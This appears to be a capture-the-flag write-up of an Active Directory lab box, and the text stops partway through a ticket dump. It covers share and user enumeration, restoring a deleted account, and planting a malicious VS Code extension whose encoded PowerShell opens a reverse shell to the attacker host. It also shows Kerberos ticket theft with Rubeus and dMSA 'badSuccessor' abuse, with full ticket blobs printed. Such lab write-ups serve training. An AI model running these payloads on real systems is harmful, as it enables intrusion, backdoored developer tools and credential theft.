



# Checkpoint
## Machine info
As is common in real life pentests, you will start the Checkpoint box with credentials for the following account alex.turner / Checkpoint2024!

```python
alex.turner:Checkpoint2024!
```

## Host file setup
```python
❯❯❯ sudo nxc smb 10.129.80.26 --generate-hosts-file /etc/hosts    
SMB         10.129.80.26    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
```

## Enumeration
### Open ports
```python
❯❯❯ nmap -p- --min-rate=2000 -sT -Pn dc01.checkpoint.htb -vv

Nmap scan report for dc01.checkpoint.htb (10.129.80.26)
Host is up, received user-set (0.014s latency).
rDNS record for 10.129.80.26: DC01.checkpoint.htb
Scanned at 2026-10-26 16:48:48 GMT for 98s
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
49664/tcp open  unknown          syn-ack
49672/tcp open  unknown          syn-ack
49674/tcp open  unknown          syn-ack
49679/tcp open  unknown          syn-ack
49680/tcp open  unknown          syn-ack
49683/tcp open  unknown          syn-ack
49710/tcp open  unknown          syn-ack
49718/tcp open  unknown          syn-ack

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 98.98 seconds
```

### Nmap
```python
❯❯❯ nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -A --min-rate=2000 -Pn -sT dc01.checkpoint.htb    
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-26 16:51 +0000
Nmap scan report for dc01.checkpoint.htb (10.129.80.26)
Host is up (0.013s latency).
rDNS record for 10.129.80.26: DC01.checkpoint.htb

PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-10-26 23:51:30Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: checkpoint.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: checkpoint.htb, Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf            .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|11|2012|2016 (88%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (88%), Microsoft Windows 11 24H2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)

Null auth disabled

Guest account is disabled

But i can try the provided credentials

```python
❯❯❯ nxc smb dc01.checkpoint.htb -u 'alex.turner' -p 'Checkpoint2024!' --smb-timeout 5
SMB         10.129.80.26    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.80.26    445    DC01             [+] checkpoint.htb\alex.turner:Checkpoint2024! 
```

As seen here i can auth as `alex.turner`

### Shares
```python
❯❯❯ nxc smb dc01.checkpoint.htb -u 'alex.turner' -p 'Checkpoint2024!' --smb-timeout 5 --shares
SMB         10.129.80.26    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.80.26    445    DC01             [+] checkpoint.htb\alex.turner:Checkpoint2024! 
SMB         10.129.80.26    445    DC01             [*] Enumerated shares
SMB         10.129.80.26    445    DC01             Share           Permissions     Remark
SMB         10.129.80.26    445    DC01             -----           -----------     ------
SMB         10.129.80.26    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.80.26    445    DC01             C$                              Default share
SMB         10.129.80.26    445    DC01             DevDrop         READ            VS Code extensions share for approved .vsix packages compatible with VS Code engine 1.118.0
SMB         10.129.80.26    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.80.26    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.80.26    445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.80.26    445    DC01             VMBackups 
```

Read access on a devdrop share, it stores VS code extensions

### Users
```python
❯❯❯ nxc smb dc01.checkpoint.htb -u 'alex.turner' -p 'Checkpoint2024!' --smb-timeout 5 --rid-brute 20000 | grep SidTypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
DC01$
alex.turner
ryan.brooks
svc_deploy
james.harper
sarah.mitchell
emily.carter
david.reynolds
jessica.coleman
lauren.flores
michael.torres
kevin.patterson
brian.jenkins
megan.perry
max.palmer
```

Ill use `--rid-brute` to also get machine accounts

## Writable objects as `alex.turner`

```python
❯❯❯ bloodyAD --host dc01.checkpoint.htb -d checkpoint.htb -u alex.turner -p 'Checkpoint2024!' get writable               

distinguishedName: CN=Deleted Objects,DC=checkpoint,DC=htb
DACL: WRITE

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: OU=Employees,DC=checkpoint,DC=htb
permission: CREATE_CHILD

distinguishedName: CN=Alex Turner,OU=Employees,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: DC=checkpoint.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=checkpoint,DC=htb
permission: CREATE_CHILD

distinguishedName: DC=_msdcs.checkpoint.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=checkpoint,DC=htb
permission: CREATE_CHILD
```

Some things here are default, but there is also some interesting info

It looks like i can restore the `mark.davies` user, i also have create child on the employees OU, this is likely where i need to restore the user to

Its also very interesting i have WriteDACL on the deleted objects

```python
❯❯❯ bloodyAD --host dc01.checkpoint.htb -d checkpoint.htb -u alex.turner -p 'Checkpoint2024!' get children --target 'CN=Deleted Objects,DC=checkpoint,DC=htb'

distinguishedName: CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb
```

If i check the child nodes on the deleted objects OU, its only mark, so this privilege isnt really interesting

## Restoring `mark.davies` to `Employees` OU

```python
❯❯❯ bloodyAD --host dc01.checkpoint.htb -d checkpoint.htb -u alex.turner -p 'Checkpoint2024!' set restore 'CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb'
[+] CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb has been restored successfully under CN=Mark Davies,OU=Employees,DC=checkpoint,DC=htb
```

Ill use bloodyAD to restore the object

Ill add the user `mark.davies` to the user list

## Compromising `mark.davies`

```python
❯❯❯ nxc smb dc01.checkpoint.htb -u users.txt -p 'Checkpoint2024!' --continue-on-success --smb-timeout 5

SMB         10.129.80.26    445    DC01             [+] checkpoint.htb\mark.davies:Checkpoint2024! 
```

This password also works on `mark.davies`

## Enumeration  as `mark.davies`

```python
❯❯❯ nxc smb dc01.checkpoint.htb -u mark.davies -p 'Checkpoint2024!' --shares  
SMB         10.129.80.26    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.80.26    445    DC01             [+] checkpoint.htb\mark.davies:Checkpoint2024! 
SMB         10.129.80.26    445    DC01             [*] Enumerated shares
SMB         10.129.80.26    445    DC01             Share           Permissions     Remark
SMB         10.129.80.26    445    DC01             -----           -----------     ------
SMB         10.129.80.26    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.80.26    445    DC01             C$                              Default share
SMB         10.129.80.26    445    DC01             DevDrop         READ,WRITE      VS Code extensions share for approved .vsix packages compatible with VS Code engine 1.118.0
SMB         10.129.80.26    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.80.26    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.80.26    445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.80.26    445    DC01             VMBackups 
```

I now have read and write on the DevDrop share

The shares itself is empty, but write access is whats most important

## Malicious .vsix file upload

https://code.visualstudio.com/api/get-started/your-first-extension

https://www.alhamrizvi.in/writeups/malicious-vsix-extensions-via-writable-smb-shares

```python
❯❯❯ penelope -p 1337        
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.86.128 • 10.10.14.61
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

First ill set a listener

```python
❯❯❯ cat extension.js 
const { execSync } = require('child_process');

function activate(context) {
    execSync('powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANgAxACIALAAxADMAMwA3ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==');
}

function deactivate() {}
module.exports = { activate, deactivate };
```

Ill make a directory called extension, in here ill make the `extension.js` file which contains the reverse shell

```python
❯❯❯ cat package.json 
{
  "name": "evil-ext",
  "displayName": "Evil Extension",
  "version": "0.0.1",
  "publisher": "attacker",
  "engines": { "vscode": "^1.118.0" },
  "activationEvents": ["*"],
  "main": "./extension.js"
}
```

Ill also make a `package.json` file in the same dir

```python
❯❯❯ zip -r evil-ext.vsix extension     
  adding: extension/ (stored 0%)
  adding: extension/package.json (deflated 29%)
  adding: extension/extension.js (deflated 52%)
```

Then ill just zip the directory containing the two files

```python
❯❯❯ smbclient //dc01.checkpoint.htb/DevDrop -U 'mark.davies'%'Checkpoint2024!'
Try "help" to get a list of possible commands.
smb: \> put evil-ext.vsix 
putting file evil-ext.vsix as \evil-ext.vsix (30.9 kB/s) (average 30.9 kB/s)
smb: \> ls
  .                                   D        0  Thu Oct 29 00:35:54 2026
  ..                                  D        0  Sat May  9 15:42:27 2026
  evil-ext.vsix                       A     1390  Thu Oct 29 00:35:54 2026

		10459391 blocks of size 4096. 2466745 blocks available
smb: \> 
```

Then ill plant the file



After a second i get a shell!

This shell is running as `ryan.brooks`

## Compromising `ryan.brooks` 

I do no have creds for this user, but i can upload rubeus and get a kirbi then convert that to a TGT

```python
PS C:\Users\ryan.brooks\Desktop> .\Rubeus.exe tgtdeleg /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/DC01.checkpoint.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation request success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: tKADHXJaQ53n40dMCJlxvBwZcKZ/SDons89Km6rIFwo=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIF1DCCBdCgAwIBBaEDAgEWooIE0DCCBMxhggTIMIIExKADAgEFoRAbDkNIRUNLUE9JTlQuSFRCoiMwIaADAgECoRowGBsGa3JidGd0Gw5DSEVDS1BPSU5ULkhUQqOCBIQwggSAoAMCARKhAwIBAqKCBHIEggRupZmAzPN4Hq6gkrxzXIp/Cczmq+QWBZ4hSOOVhkyZXZzJMKD0Kai4WnSeoHnK+psuS85pE6sLPRLtM9siVuUKYOg4HRYpsEfPzFJX/e9DudRSzg596JMe1QqH8hxNPlvQX/5loC+M6YJJ6PGnyhMxIjnTRB95kQ8L6lh9Lsx9nVp6+CBSVgIoJD7695Xw4tKIk+g6yH8miF7n74pGza9atgqW6ZNoqeMOm1ptpBfUmeMsIBKl1OL+fn+HNz0ZUe/7tim8a94jXMgZ7fTDzKcitFElwV5uLR+1prGrsWkq+BCbToNwrHUFTMZVZu+lZxV6hcZyRPbP6upvsZdneH198PsOWirdOdVgmXelTLiec1C8B0dPHrMd/6DsbhuN1mlsHOOO9+u7yU8EpcgCTl0gaOXsfI3dwB8ILUWOP+oCMsPawAK28HeAhBGnTF7K9ZU5qPQwkzfM+q65MPokJdtwPwCUQVzH1PGAJQDPPmltSqpPbMbhvTq0xIF6dWXtpk45+nMVqrV8EVFixzRnPORoWJrkr0a+gHqDqenYBvIfTg9I/sll6lYR4ApDVlGBXMnIuAjd6cfTlnZbAPYKEzi7wv+6xUJoqx7u5Ila3l+QlPMx4jB+GPb+AcKZdoyFLVqbioHVr4y2pzFUOXwdbYJrUjGrb8EcN24RlVl5BCsS5NxKY+lvShJM1I2HdJvz93FkhSEp9nNMZuwjGnux9sXGG51LrmcrJ/zZE9bxWrTIuSqI7+qBj97pFMka1x/bfxcMyp4CQz9T30evoY1HejtOxpj17EwyEwX+qKDJXC43BU47BcWBlX8JZMYX8GeglX8ORBwh4CWZ6DEXGCYmhxSFmoOYuoTFzcLSsmMKv7iT4KWselKZjHCXtsoxzrZY0BU08h+wGH6IZEhankQ4z/aeuK645r/7Mi+OVZ/r+V3l/BNCWtgD3whcZq3FB0K1uGA4HSRkT/s0GHXBzg6XbC/S2T/U2WfOUMK8QyyKIKqAXB3leDsmGoo2UaDHzpCRl6QG+0FVglbTyF2vR8SzWUSX17a9/AcVHymQXSX2s0hxv874IPQ0iJG2dq/36pDIcAXWMO+5pv6557S5pz3vGBva+aIXW6DGtzbZ1Fsj9y2AJgGhWndDo5x8GR6kUC0wU2Bvcv5U9mJ5rtdyukWzSNmoWKLAM0P8EjD3J+DcPWMQVXjn1htVgMoGxuEIBsFMIhGYpv4aqdkQAsvEgi1JGNHwF0mDnk2W204UsCl57ZXo2i2IT5RXv/xu1D+JnwNoUOt7LygUr2FFte3OiU5xlYmwxVWHhqHX3I0Iexf6SnVbbuMx79dbP5kZE6YeNMByciiDfYJewu6mmulACIm01d0tdLBH5LSQIqeSRFfkjyT3Cfh3z0U7fZlIZZesKYwT+mgvpr089XiDzk0ir0IKG/UtQ+7dXtHb8qg48SW8ic2a2A2X3Nvxrw3tOzIxuPANlhWh4COG7YzLW0gJn0Bq3ICAw4YHq3UXAa//otjb9A7Zo4HvMIHsoAMCAQCigeQEgeF9gd4wgduggdgwgdUwgdKgKzApoAMCARKhIgQg8Shms8dz0FZOAEi+Cz1B0LQCKt/uOGm9ax3g/nlHWwihEBsOQ0hFQ0tQT0lOVC5IVEKiGDAWoAMCAQGhDzANGwtyeWFuLmJyb29rc6MHAwUAYKEAAKURGA8yMDI2MTAyOTAwNDM1M1qmERgPMjAyNjEwMjkxMDQzNTNapxEYDzIwMjYxMTA1MDA0MzUzWqgQGw5DSEVDS1BPSU5ULkhUQqkjMCGgAwIBAqEaMBgbBmtyYnRndBsOQ0hFQ0tQT0lOVC5IVEI=
PS C:\Users\ryan.brooks\Desktop> 
```

Ill get a kirbi

```python
❯❯❯ echo 'doIF1DCCBdCgAwIBBaEDAgEWooIE0DCCBMxhggTIMIIExKADAgEFoRAbDkNIRUNLUE9JTlQuSFRCoiMwIaADAgECoRowGBsGa3JidGd0Gw5DSEVDS1BPSU5ULkhUQqOCBIQwggSAoAMCARKhAwIBAqKCBHIEggRupZmAzPN4Hq6gkrxzXIp/Cczmq+QWBZ4hSOOVhkyZXZzJMKD0Kai4WnSeoHnK+psuS85pE6sLPRLtM9siVuUKYOg4HRYpsEfPzFJX/e9DudRSzg596JMe1QqH8hxNPlvQX/5loC+M6YJJ6PGnyhMxIjnTRB95kQ8L6lh9Lsx9nVp6+CBSVgIoJD7695Xw4tKIk+g6yH8miF7n74pGza9atgqW6ZNoqeMOm1ptpBfUmeMsIBKl1OL+fn+HNz0ZUe/7tim8a94jXMgZ7fTDzKcitFElwV5uLR+1prGrsWkq+BCbToNwrHUFTMZVZu+lZxV6hcZyRPbP6upvsZdneH198PsOWirdOdVgmXelTLiec1C8B0dPHrMd/6DsbhuN1mlsHOOO9+u7yU8EpcgCTl0gaOXsfI3dwB8ILUWOP+oCMsPawAK28HeAhBGnTF7K9ZU5qPQwkzfM+q65MPokJdtwPwCUQVzH1PGAJQDPPmltSqpPbMbhvTq0xIF6dWXtpk45+nMVqrV8EVFixzRnPORoWJrkr0a+gHqDqenYBvIfTg9I/sll6lYR4ApDVlGBXMnIuAjd6cfTlnZbAPYKEzi7wv+6xUJoqx7u5Ila3l+QlPMx4jB+GPb+AcKZdoyFLVqbioHVr4y2pzFUOXwdbYJrUjGrb8EcN24RlVl5BCsS5NxKY+lvShJM1I2HdJvz93FkhSEp9nNMZuwjGnux9sXGG51LrmcrJ/zZE9bxWrTIuSqI7+qBj97pFMka1x/bfxcMyp4CQz9T30evoY1HejtOxpj17EwyEwX+qKDJXC43BU47BcWBlX8JZMYX8GeglX8ORBwh4CWZ6DEXGCYmhxSFmoOYuoTFzcLSsmMKv7iT4KWselKZjHCXtsoxzrZY0BU08h+wGH6IZEhankQ4z/aeuK645r/7Mi+OVZ/r+V3l/BNCWtgD3whcZq3FB0K1uGA4HSRkT/s0GHXBzg6XbC/S2T/U2WfOUMK8QyyKIKqAXB3leDsmGoo2UaDHzpCRl6QG+0FVglbTyF2vR8SzWUSX17a9/AcVHymQXSX2s0hxv874IPQ0iJG2dq/36pDIcAXWMO+5pv6557S5pz3vGBva+aIXW6DGtzbZ1Fsj9y2AJgGhWndDo5x8GR6kUC0wU2Bvcv5U9mJ5rtdyukWzSNmoWKLAM0P8EjD3J+DcPWMQVXjn1htVgMoGxuEIBsFMIhGYpv4aqdkQAsvEgi1JGNHwF0mDnk2W204UsCl57ZXo2i2IT5RXv/xu1D+JnwNoUOt7LygUr2FFte3OiU5xlYmwxVWHhqHX3I0Iexf6SnVbbuMx79dbP5kZE6YeNMByciiDfYJewu6mmulACIm01d0tdLBH5LSQIqeSRFfkjyT3Cfh3z0U7fZlIZZesKYwT+mgvpr089XiDzk0ir0IKG/UtQ+7dXtHb8qg48SW8ic2a2A2X3Nvxrw3tOzIxuPANlhWh4COG7YzLW0gJn0Bq3ICAw4YHq3UXAa//otjb9A7Zo4HvMIHsoAMCAQCigeQEgeF9gd4wgduggdgwgdUwgdKgKzApoAMCARKhIgQg8Shms8dz0FZOAEi+Cz1B0LQCKt/uOGm9ax3g/nlHWwihEBsOQ0hFQ0tQT0lOVC5IVEKiGDAWoAMCAQGhDzANGwtyeWFuLmJyb29rc6MHAwUAYKEAAKURGA8yMDI2MTAyOTAwNDM1M1qmERgPMjAyNjEwMjkxMDQzNTNapxEYDzIwMjYxMTA1MDA0MzUzWqgQGw5DSEVDS1BPSU5ULkhUQqkjMCGgAwIBAqEaMBgbBmtyYnRndBsOQ0hFQ0tQT0lOVC5IVEI=' | base64 -d | tee ryan.brooks.kirbi
```

Ill then put this into a .kirbi file

```python
❯❯❯ ticketConverter.py ryan.brooks.kirbi ryan.brooks.ccache
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

Then ill convert it!

```python
❯❯❯ export KRB5CCNAME=ryan.brooks.ccache

❯❯❯ faketime -f +7h nxc smb dc01.checkpoint.htb --use-kcache                                                      
SMB         dc01.checkpoint.htb 445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         dc01.checkpoint.htb 445    DC01             [+] CHECKPOINT.HTB\ryan.brooks from ccache
```

Then after exporting it i can auth as this user!

## Writable objects as `ryan.brooks`

```python
❯❯❯ bloodyAD --host dc01.checkpoint.htb -d checkpoint.htb -k get writable                                                                                                                                    
Clock skew detected. Adjusting local time by 6:59:59.720974. Retrying operation.

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: OU=DMSAHolder,DC=checkpoint,DC=htb
permission: CREATE_CHILD

distinguishedName: CN=Ryan Brooks,OU=Employees,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: CN=svc_deploy,OU=ServiceAccounts,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: DC=checkpoint.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=checkpoint,DC=htb
permission: CREATE_CHILD

distinguishedName: DC=_msdcs.checkpoint.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=checkpoint,DC=htb
permission: CREATE_CHILD
```

I have create child on the `OU=DMSAHolder,DC=checkpoint,DC=htb` OU and also GenericWrite on the `svc_deploy` account

This is pointing me to badsuccessor by the looks of this

## BetterSuccessor

```python
❯❯❯ faketime -f +7h nxc ldap dc01.checkpoint.htb --use-kcache -M badsuccessor
LDAP        dc01.checkpoint.htb 389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:CHECKPOINT.HTB) (signing:Enforced) (channel binding:No TLS cert) 
LDAP        dc01.checkpoint.htb 389    DC01             [+] CHECKPOINT.HTB\ryan.brooks from ccache 
BADSUCCE... dc01.checkpoint.htb 389    DC01             [+] Found domain controller with operating system Windows Server 2025: 10.129.81.48 (DC01.checkpoint.htb)
BADSUCCE... dc01.checkpoint.htb 389    DC01             [+] Found 2 results
BADSUCCE... dc01.checkpoint.htb 389    DC01             alex.turner (S-1-5-21-3129162710-3498938529-1807524340-1101), OU=Employees,DC=checkpoint,DC=htb
BADSUCCE... dc01.checkpoint.htb 389    DC01             ryan.brooks (S-1-5-21-3129162710-3498938529-1807524340-1103), OU=DMSAHolder,DC=checkpoint,DC=htb
```

There are two objects able to create dMSA's under certain OUs

```python
PS C:\Users\ryan.brooks\Desktop> [System.Diagnostics.FileVersionInfo]::GetVersionInfo("$env:SystemRoot\System32\kdcsvc.dll").FileVersion
10.0.26100.32684 (WinBuild.160101.0800)
PS C:\Users\ryan.brooks\Desktop> 
```

Ill check the version, and this version should be patched for badsuccessor, but i can still exploit bettersuccessor

```python
❯❯❯ bloodyAD --host dc01.checkpoint.htb -d checkpoint.htb -u ryan.brooks -k add badSuccessor 'evil_dmsa' --ou 'OU=DMSAHolder,DC=checkpoint,DC=htb' -t 'CN=SVC_DEPLOY,OU=SERVICEACCOUNTS,DC=CHECKPOINT,DC=HTB' 
Clock skew detected. Adjusting local time by 7:00:00.285607. Retrying operation.
[+] Creating DMSA evil_dmsa$ in OU=DMSAHolder,DC=checkpoint,DC=htb
[+] Impersonating: CN=SVC_DEPLOY,OU=SERVICEACCOUNTS,DC=CHECKPOINT,DC=HTB
Clock skew detected. Adjusting local time by 6:59:59.927147. Retrying operation.

Realm        : CHECKPOINT.HTB
Sname        : krbtgt/CHECKPOINT.HTB
UserName     : evil_dmsa$
UserRealm    : checkpoint.htb
StartTime    : 2026-10-29 01:23:05+00:00
EndTime      : 2026-10-29 10:43:53+00:00
RenewTill    : 2026-11-05 00:43:53+00:00
Flags        : forwardable, forwarded, renewable, enc-pa-rep, pre-authent
Keytype      : 18
Key          : kL2YguNtWklui11zaOiC1Sct5H/gzXMUbZX+knaftmE=
EncodedKirbi : 

    doIF4zCCBd+gAwIBBaEDAgEWooIEzzCCBMthggTHMIIEw6ADAgEFoRAbDkNIRUNLUE9JTlQuSFRCoiMwIaADAgECoRowGBsGa3Ji
    dGd0Gw5DSEVDS1BPSU5ULkhUQqOCBIMwggR/oAMCARKhAwIBAqKCBHEEggRtP7OWIqyTdspEtaa735PrmlgBSEXboKtvLbRFTSNw
    oP9EcpgDehVRpPxaJ8YK0tT9Urxv2EGS3+jo7lZ1Ndl1WyqpAsE+98Bne/JdRooQ3JWmCBrS2LoEgBBCO4nbiDDu7dzNFuh/DO2q
    wN9eihM4HYK9S5tsUqQSXo9l4SepbPsNjJvYtwH0BNkKGyqKeSJYWarV2v8gOzjdRXaWqterEIL8+2QRIuCXzH2UrMzaXf0kt4TD
    4feUCu9x85K689NsMdvvr92x+qzuK+66/Jb5sN/7kzhRNm/jWFIALHvzdP/db3HwC1yDZHwYxxNetB+tmGeFRSzkhmHsLThy5D62
    e2wdiPI2h2HaasZPYLjLawys9SIMiIUVoTHfIzwQ9UfCgnpJ8ou4zLlCxPS4pmiqPwN7nmdqntLAyGQ0NZDhnGif3tFOg2E+4xvb
